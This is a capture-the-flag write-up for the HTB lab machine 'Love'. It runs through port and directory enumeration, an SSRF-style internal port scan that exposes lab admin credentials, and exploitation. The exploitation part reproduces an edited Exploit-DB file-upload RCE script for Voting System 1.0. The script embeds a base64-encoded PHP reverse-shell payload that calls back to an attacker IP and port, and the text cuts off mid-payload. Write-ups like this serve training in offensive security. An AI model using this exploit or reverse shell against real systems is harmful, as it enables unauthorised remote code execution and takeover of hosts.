









# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.48.103

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-03 15:31 BST
Nmap scan report for 10.129.48.103
Host is up (0.088s latency).
Not shown: 65516 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5000/tcp  open  upnp
5040/tcp  open  unknown
5985/tcp  open  wsman
5986/tcp  open  wsmans
7680/tcp  open  pando-pub
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 71.91 seconds
"
```

```bash
nmap -p 80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664,49665,49666,49667,49668,49669,49670 -sC -sV 10.129.48.103

`
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-03 15:33 BST
Nmap scan report for 10.129.48.103
Host is up (0.074s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL: 
|_    Host '10.10.14.74' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2023-10-03T14:58:03+00:00; +21m31s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.93%I=7%D=10/3%Time=651C2641%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.74'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-10-03T14:57:52
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-10-03T07:57:50-07:00
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 2h06m31s, deviation: 3h30m01s, median: 21m30s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.85 seconds
`
```

## **View Website**





## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.48.103/ -w /usr/share/wordlists/dirb/common.txt -z -b 403,404

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.48.103/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/04 11:19:11 Starting gobuster in directory enumeration mode
===============================================================
/Admin                (Status: 301) [Size: 339] [--> http://10.129.48.103/Admin/]
/admin                (Status: 301) [Size: 339] [--> http://10.129.48.103/admin/]
/ADMIN                (Status: 301) [Size: 339] [--> http://10.129.48.103/ADMIN/]
/dist                 (Status: 301) [Size: 338] [--> http://10.129.48.103/dist/] 
/examples             (Status: 503) [Size: 403]                                  
/images               (Status: 301) [Size: 340] [--> http://10.129.48.103/images/]
/Images               (Status: 301) [Size: 340] [--> http://10.129.48.103/Images/]
/includes             (Status: 301) [Size: 342] [--> http://10.129.48.103/includes/]
/index.php            (Status: 200) [Size: 4388]                                    
/plugins              (Status: 301) [Size: 341] [--> http://10.129.48.103/plugins/] 
                                                                                    
===============================================================
2023/10/04 11:20:33 Finished
===============================================================
"
```

## View Certificate to Enumerate Hosts



The certificate belongs to `love.htb` and `staging.love.htb`

## Add hosts to the /etc/hosts

```bash
sudo vi /etc/hosts

"
10.129.48.103 love.htb staging.love.htb
"
```

## View staging.love.htb



## Enumerating staging.love.htb

### Routing to the Demo (/beta.php)



### Scanning our reverse shell hosted by attacking machine. (Failed)



I expected to execute the file, but instead it `cat` our reverse shell

### Scanning `localhost:80`



Here it displays the voting system login menu. We can try different ports to find hidden websites!

### Finding the Credentials (Scanning `localhost:5000`)



The website displays the admin credentials!!

```markdown
username: admin
password: @LoveIsInTheAir!!!!
```

## Logging in to `/admin`



# Exploitation

## Searching for Voting System Exploit

```bash
searchsploit voting system

"
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Online Voting System - Authentication Bypass                                                                                        | php/webapps/43967.py
Online Voting System 1.0 - Authentication Bypass (SQLi)                                                                             | php/webapps/50075.txt
Online Voting System 1.0 - Remote Code Execution (Authenticated)                                                                    | php/webapps/50076.txt
Online Voting System 1.0 - SQLi (Authentication Bypass) + Remote Code Execution (RCE)                                               | php/webapps/50088.py
Online Voting System Project in PHP - 'username' Persistent Cross-Site Scripting                                                    | multiple/webapps/49159.txt
Voting System 1.0 - Authentication Bypass (SQLI)                                                                                    | php/webapps/49843.txt
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)                                                           | php/webapps/49445.py
Voting System 1.0 - Remote Code Execution (Unauthenticated)                                                                         | php/webapps/49846.txt
Voting System 1.0 - Time based SQLI  (Unauthenticated SQL injection)                                                                | php/webapps/49817.txt
WordPress Plugin Poll_ Survey_ Questionnaire and Voting system 1.5.2 - 'date_answers' Blind SQL Injection                           | php/webapps/50052.txt
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
"
```

```bash
searchsploit -x 49445

"
  Exploit: Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)
      URL: https://www.exploit-db.com/exploits/49445
     Path: /usr/share/exploitdb/exploits/php/webapps/49445.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable, with very long lines
"
```

## Script Error

### Exploit not working

The script just ends without exploiting

```bash
python3 exploit.py

"
Start a NC listner on the port you choose above and run...

"
```

### Finding the Problem

Here we see the link is not correct. If we look above, the link is in `http://love.htb/admin/*.php` format. Hence we need to remove the `/votesystem` directory

```python
INDEX_PAGE = f"http://{IP}/votesystem/admin/index.php"
LOGIN_URL = f"http://{IP}/votesystem/admin/login.php"
VOTE_URL = f"http://{IP}/votesystem/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/votesystem/images/shell.php"
```

## Editted Exploit Code

```python
# Exploit Title: Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)
# Date: 19/01/2021
# Exploit Author: Richard Jones
# Vendor Homepage:https://www.sourcecodester.com/php/12306/voting-system-using-php.html
# Software Link: https://www.sourcecodester.com/download-code?nid=12306&title=Voting+System+using+PHP%2FMySQLi+with+Source+Code
# Version: 1.0
# Tested on: Windows 10 2004 + XAMPP 7.4.4

import requests

# --- Edit your settings here ----
IP = "love.htb" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "<attacker ip>" # Reverse shell IP
REV_PORT = "4444" # Reverse port
# --------------------------------

INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"

payload = """

<?php

header('Content-type: text/plain');
$ip   = "IIPP";
$port = "PPOORRTT";
$payload = "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